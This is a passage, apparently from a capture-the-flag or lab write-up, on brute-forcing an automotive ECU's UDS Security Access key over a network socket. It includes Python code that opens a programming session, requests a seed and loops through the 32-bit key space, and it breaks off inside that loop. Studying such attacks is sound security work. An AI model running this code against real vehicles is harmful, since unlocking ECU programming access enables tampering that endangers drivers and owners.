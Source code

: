 This indicates that the ECU has responded positively to the Security Access – Request Seed (0x27 01), providing the seed value 0x30 0x30 0x30 0x30 ("0000" in ASCII).
However, without knowing the correct key (password) to unlock the session, this seed alone isn’t sufficient to proceed. We would need to calculate or bypass the challenge-response mechanism to gain access.

### Brute-Force password

If we resend the request for a seed, we observe that the seed remains constant: 0000 (\x30\x30\x30\x30). This indicates that the key can be brute-forced.

However, brute-forcing the range from 0x00000000 to 0xFFFFFFFF means you're going through 2³² = 4,294,967,296 possible values — basically a full 32-bit key space.

Since we’re performing this over the internet, latency and response times can significantly affect performance. In this case, we'll proceed with the attack and rely a bit on luck (Easy Key).

We first test sending a random key to see how the ECU will respond.

```python
payload = bytearray([0x6, 0x27, 0x2, 0x1, 0x1, 0x1, 0x1])
logger.info(f"Sending payload: {' '.join(map(lambda x: f'{x:02x}', payload))}")
sock.send(payload)

response = bytearray(sock.recv(8))
logger.info(f"Response: {' '.join(map(lambda x: f'{x:02x}', response))}")
```

Output:

```bash
INFO - Sending payload: 06 27 02 01 01 01 01
INFO - Response: 03 7f 27 35
```

As expected, we receive a negative response with the NRC `0x35`. Looking up this code reveals it corresponds to `0x35 – Invalid Key`. Now that we understand how to brute-force the key and recognize a correct response based on the NRC, we can proceed with the attack more effectively.

```python
from itertools import product

# Get into Programming Session
payload = bytearray([0x2, 0x10, 0x2])
logger.info(f"Sending payload: {' '.join(map(lambda x: f'{x:02x}', payload))}")
sock.send(payload)

response = bytearray(sock.recv(8))
logger.info(f"Response: {' '.join(map(lambda x: f'{x:02x}', response))} (Changing to Programming Session)")

# Get a Seed (Doesn't has a meaning but we don't know if the ECU login mechanism depend on this)
payload = bytearray([0x2, 0x27, 0x1])
logger.info(f"Sending payload: {' '.join(map(lambda x: f'{x:02x}', payload))}")
sock.send(payload)

response = bytearray(sock.recv(8))
logger.info(f"Response: {' '.join(map(lambda x: f'{x:02x}', response))}")
seed = response[3:]
logger.info(f"Seed: {seed}")

# Brute Force the Key
for b1, b2, b3, b4 in product(range(256), repeat=4):
    payload = bytearray([0x6, 0x27, 0x2, b1, b2, b3, b4])
    logger.info(f"Sending payload: {' '.join(map(lambda x: f'{x:02x}', payload))}")
    sock.send(payload)

    response = bytearray(sock.recv(8))
```